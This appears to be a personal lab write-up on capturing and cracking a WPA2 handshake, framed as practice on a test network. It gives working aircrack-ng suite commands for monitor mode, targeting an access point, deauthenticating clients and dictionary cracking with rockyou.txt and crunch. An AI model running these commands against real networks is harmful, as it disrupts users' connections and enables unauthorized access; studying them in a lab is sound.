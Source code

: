 # 🔐 WPA/WPA2 Handshake Capture & Cracking Lab

This lab walks through how I captured a WPA2 handshake from a test network using Kali Linux and prepared it for offline cracking. It's based on chapters 5 and 7 from my Wi-Fi exploitation course.

---

## 🎯 Objectives

- Enable monitor mode on a wireless adapter
- Scan and select a target access point (AP)
- Capture WPA/WPA2 handshake using `airodump-ng`
- Use deauth attack to force a client to reconnect
- Save and verify the captured handshake for cracking

---

## 🧪 Lab Setup

- **OS**: Kali Linux (VirtualBox guest)
- **Adapter**: ALFA AWUS036H (RTL8187)
- **Test Network**: WPA2-PSK protected
- **Tools**: `airmon-ng`, `airodump-ng`, `aireplay-ng`, `aircrack-ng`

---

## 🛰️ Steps Taken

### 1. Killed Network Managers & Switched to Monitor Mode
```bash
sudo airmon-ng check kill
sudo airmon-ng start wlan0
```

### 2. Scanned Networks to Find the Target
```bash
sudo airodump-ng wlan0mon
```
> Grabbed the BSSID and channel of the target network.

### 3. Focused Airodump on One AP
```bash
sudo airodump-ng --bssid <BSSID> -c <channel> -w handshake wlan0mon
```

### 4. Sent Deauth Packets to Kick a Device Off
```bash
sudo aireplay-ng --deauth 10 -a <BSSID> wlan0mon
```
> Waited for client to reconnect → handshake captured.

### 5. Verified the Handshake
Saw `[ WPA handshake: <BSSID> ]` in the corner of the terminal. Output saved as `handshake.cap`.

---

## 🧠 (Optional) Tried Cracking with a Wordlist
```bash
aircrack-ng handshake.cap -w /usr/share/wordlists/rockyou.txt
```

Also tried building a tiny custom list:
```bash
crunch 8 10 abc123 -o testlist.txt
```

---

## 🔍 Notes to Self

- Needs at least one client connected to work.
- Some routers block multiple deauths.
- Got to test airodump-ng and aireplay-ng together in a real flow.

---

## ✅ Outcome

Captured a working WPA2 handshake in a controlled environment. Can use it to practice brute-force and dictionary-style attacks later.

---

## ⏭️ Next Lab

Will attempt full WPA2 cracking and dictionary tuning in [`wpa2-dictionary-attack.md`](wpa2-dictionary-attack.md)
